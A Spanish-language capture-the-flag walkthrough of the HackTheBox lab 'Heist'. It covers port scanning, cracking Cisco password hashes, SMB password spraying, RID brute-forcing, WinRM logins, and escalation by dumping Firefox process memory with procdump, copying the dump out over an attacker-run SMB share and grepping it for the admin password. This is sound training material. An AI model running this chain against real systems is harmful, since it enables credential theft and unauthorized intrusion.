# [Easy] Heist
## Autor: David Chaparro <AuthorName>

## Solución

### Enumeración de puertos
Empezamos enumerando puertos normalmente:

```python
# Nmap 7.94SVN scan initiated Tue Sep 17 18:58:51 2024 as: nmap -p 80,135,445,5985,49669 -Pn -sVC --min-rate 5000 -oN puertos.txt 10.129.45.76
Nmap scan report for 10.129.45.76
Host is up (0.19s latency).
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
| http-title: Support Login Page
|_Requested resource was login.php
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
135/tcp   open  msrpc         Microsoft Windows RPC
445/tcp   open  microsoft-ds?
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49669/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
|_clock-skew: -1s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-09-17T22:59:54
|_  start_date: N/A
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Sep 17 19:00:31 2024 -- 1 IP address (1 host up) scanned in 99.87 seconds
```

### Enumeración web, crackeo de contraseñas e intrusión

Vemos que hay un servicio web corriendo en el puerto 80:





 

Antes de probar ataques al login, haciendo hovering, encontramos un archivo de configuración de un router cisco, que nos muestra varias contraseñas encriptadas.

 

Investigando un poco, podemos ver que las contraseñas encriptadas cisco de tipo 7 pueden ser crackeadas en esta página:

https://www.firewall.cx/cisco/cisco-routers/cisco-type7-password-crack.html

 

 

Ahora intentemos crackear la última contraseña hasheada, podemos intentar identificar el hash de varias maneras, como con herramientas como `hash-identifier`, `hash-id` o identificarlo con el parámetro `--identify`:

 

También podríamos identificarlo mirando ejemplos propios de hashcat en esta página (filtrando por "cisco"):

 

Ahora utilizamos `hashcat` para intentar crackearlo:

```terminal
hashcat -m 500 hash /usr/share/wordlists/rockyou.txt
```

 

Tenemos todas las contraseñas!, y también una lista de usuarios.

Recordando los puertos abiertos en la máquina, el `445` que es el puerto de servicio `smb`, podemos utilizar la herramienta `netexec` para enumerar y verificar acceso de usuarios en diferentes servicios:

```terminal
netexec smb 10.129.18.211 -u users -p passwords --continue-on-success
```

 

También podemos observar que el dominio al que pertenece el usuario `"Hazard"` es `"SUPPORTDESK"`.

Y con el parámetro `--shares` podemos enumerar las partes disponibles en el acceso del usuario 



Intentamos establecer conexión con esa parte, usando el comando:

```terminal
smbclient \\\\\10.129.45.76\\IPC$ -U Hazard --password=stealth1agent
```



Pero vemos que no podemos ejecutar comandos de enumeración.

Ahora intentamos enumerar más usuarios viendo que el puerto `135` está abierto con el protocolo `RPC`, para esto, podemos ingresar con el mismo usuario de acceso al `smb`, `Hazard:stealth1agent`. Ingresamos con el comando:

```terminal
rpcclient -U Hazard%stealth1agent 10.129.45.76
```

Y podemos ingresar varios comandos para realizar enumeración:



No hemos podido enumerar usuarios con los comandos habituales, pero podemos intentar enumerar por fuerza bruta sabiendo el `RID` del usuario `"Hazard"`, el cual es `1008` 

Si aumentamos de manera manual el `RID`, podemos ver que existen más usuarios en el dominio



También podemos descubrir estos usuarios utilizando el parámetro --rid-brute de `netexec`:



Incluso podemos observar más usuarios de esta manera.

Ahora, los incluimos en nuestra lista de usuarios e intentamos ver si algún usuario tiene acceso:



El usuario `Chase` tiene acceso con winrm!!, intentemos ingresar y obtener la flag de usuario:

```terminal
evil-winrm -u ChasE -p 'Q4)sJu\Y8qz*A3?d' -i 10.129.234.30
```



Obtenemos la flag de usuario!! Y además encontramos un archivo `"todo.txt"` que nos dice que tenemos que chequear la lista de problemas y arreglar la configuración del router.

### Escalada de privilegios


Viendo los procesos con el comando `ps` o `get-process`, podemos observar que el navegador web `firefox` está abierto y siendo utilizado, podemos intentar dumpear memoria del proceso y buscar la contraseña con la que se ingresó al portal web.

Para esto utilizamos el script `procdump64.exe`. Lo descargamos desde el link: https://learn.microsoft.com/es-es/sysinternals/downloads/procdump en nuestra máquina y lo pasamos a la máquina windows con el comando:

```terminal
upload /home/kali/Desktop/htb/machines/Heist/content/procdump64.exe
```

Y lo usamos con el siguiente comando (tomando el proceso de `firefox` que más consume recursos):

```terminal
./procdump64.exe -accepteula -ma 6156
```

Y pasamos el archivo a nuestra máquina kali para poder buscar y filtrar mejor.

Descargamos el archivo con el uso del comando `download`:

```terminal
download firefox.exe_240921_112834.dmp
```

Este comando demorará mucho el proceso de transferencia, para realizarlo de una manera más rápida, levantamos un servidor `smb` para realizar la transferencia por ese medio, para esto utilizamos la herramienta `smbserver`:

```terminal
impacket-smbserver smb $(pwd) -smb2support
```

Y en la máquina windows ingresamos el siguiente comando para pasar el archivo:

```terminal
copy firefox.exe_240921_112834.dmp \\10.10.16.19\smb\firefox.exe_240921_112834.dmp
```

Y ahora realizamos un `grep`, buscando coincidencias con la palabra `"password"` (utilizando `strings`, para que sea humanamente legible):

```terminal
strings firefox.exe_240921_112834.dmp | grep "password"
```



Encontramos la contraseña del portal web! y vemos que es de la cuenta `admin@support.htb`, pero si ingresamos  al portal web, seguimos viendo la misma página que ve el usuario invitado.

Podemos revisar si esta contraseña es válida para el usuario `Administrator` mediante `netexec`



Y efectivamente podemos ingresar con el usuario `Administrator`:

```terminal
evil-winrm -u 'Administrator' -p '4dD!5}x/re8]FBuZ' -i 10.129.234.30
```



Y leer la flag root.txt!! 🐇

